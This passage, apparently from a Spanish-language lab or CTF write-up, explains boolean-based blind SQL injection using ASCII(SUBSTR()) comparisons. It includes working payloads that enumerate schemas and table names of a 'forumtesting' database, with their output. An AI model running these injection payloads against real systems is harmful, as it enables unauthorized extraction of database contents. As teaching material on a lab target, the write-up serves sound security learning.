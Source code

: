 De nuevo tenemos el punto de explotación. Lo siguiente es apoyarnos de [recursos web](https://portswigger.net/web-security/sql-injection/blind) para extraer la información interna de las bases de datos.

💡 **Un ejemplo rápido para que entiendan la sintaxis, pero las sentencias de extracción son las mismas que la anterior inyección.**

```sql
1 AND ASCII(SUBSTR('hola',1,1))=104-- -
```

Lo que estamos haciendo es muy sencillo. Vamos del centro para afuera:

* Con `SUBSTR('hola',1,1)` extraemos el primer carácter (en este caso) de la palabra **hola**, o sea, la `h`.
* Después lo que hacemos es convertir ese carácter a su valor **ASCII**, o sea: [104](https://www.ascii-code.com/104).
* Y lo último es hacer la comparación, si ese valor **ASCII** es igual a **104**, sabemos que la primera posición de la palabra **hola** es la letra `h`.
* Lo que sigue es automatizar ese ciclo en el que valida cada valor **ASCII** con cada posición (:

---

### Extraemos las bases de datos [⤵️](#sqli-boolean-forum-dbs) {#sqli-boolean-forum-dbs}

Esta sería la sentencia de ejemplo para extraer las bases de datos:

```sql
1 AND ASCII(SUBSTR((SELECT schema_name FROM information_schema.SCHEMATA LIMIT 0,1),1,1))=105-- -
```

Obtenemos:

```bash
information_schema                                       
performance_schema                                       
forumtesting
```

La distinta es `forumtesting`, a examinarla.

### Extraemos las tablas de una base de datos [⤵️](#sqli-boolean-forum-tables) {#sqli-boolean-forum-tables}

---

```sql
1 AND ... SELECT table_name FROM information_schema.tables WHERE table_schema='forumtesting' ...
```

Nos responde:

```bash
forum_category
forum_owner
forum_posts
forum_topics
forum_users
```
